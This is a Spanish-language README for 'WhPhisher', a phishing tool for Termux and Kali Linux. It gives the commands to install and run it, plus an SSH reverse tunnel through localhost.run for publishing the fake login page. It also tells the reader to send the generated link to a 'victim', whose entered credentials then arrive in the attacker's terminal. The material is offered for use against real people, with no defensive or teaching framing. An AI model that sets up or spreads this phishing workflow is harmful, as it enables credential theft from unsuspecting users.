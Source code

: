 # WhPhisher
Herramienta para hacer phishing con muchos
métodos de túneling

# Probado en:
Termux, Kali Linux y devian

# Como instalar

`pkg install python3`

`pkg install git`

`git clone https://github.com/WhBeatZ/WhPhisher`

`cd WhPhisher`

`chmod +x *`

`python3 whphisher.py`

[![Screenshot-20211228-113217.png](https://i.postimg.cc/zf6sY5Zz/Screenshot-20211228-113217.png)](https://postimg.cc/06GW7TyF)

Elegir la página y esperar a que inicie el túneling.

# Solucion si no se genera el link o no funciona

Pasos:

`Abrimos nueva sesión`

`cd`

`pkg install openssh -y`

`ssh -R 80:localhost:8080 nokey@localhost.run`

Compartir el link que se generó

# Como debería de quedar
- Lo verde tapa información personal 
- La flecha amarilla apunta al link que hay que compartir

[![Pics-Art-12-28-12-04-12.jpg](https://i.postimg.cc/Dw0djMxM/Pics-Art-12-28-12-04-12.jpg)](https://postimg.cc/yDqZWv4m)

# Resultado

- El link que le enviaste a la victima: 

[![Screenshot-20211228-121057.png](https://i.postimg.cc/Gh2qVt2K/Screenshot-20211228-121057.png)](https://postimg.cc/jCpHJsyn)

Cuando la víctima pone sus credenciales, nos llegan en la terminal:

[![Screenshot-20211228-121119.png](https://i.postimg.cc/mg6DjdnV/Screenshot-20211228-121119.png)](https://postimg.cc/nXBpc1pQ)


